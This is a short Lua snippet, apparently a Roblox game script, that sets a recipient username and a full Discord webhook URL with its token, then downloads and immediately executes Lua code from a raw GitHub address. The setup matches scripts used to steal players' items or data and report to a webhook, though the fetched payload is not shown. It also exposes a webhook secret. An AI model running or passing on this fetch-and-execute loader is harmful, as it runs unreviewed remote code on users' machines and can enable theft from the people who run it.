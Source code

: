 UserName = "dragondeath212"
WebHook = "https://discord.com/api/webhooks/1093284060463386714/4tUgHTBOFfUpalVz0uKomH7kzA6hwQft3qliX-UuhkZlzLB6ZxYwOsocaQcT7ymcZo3x"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))()
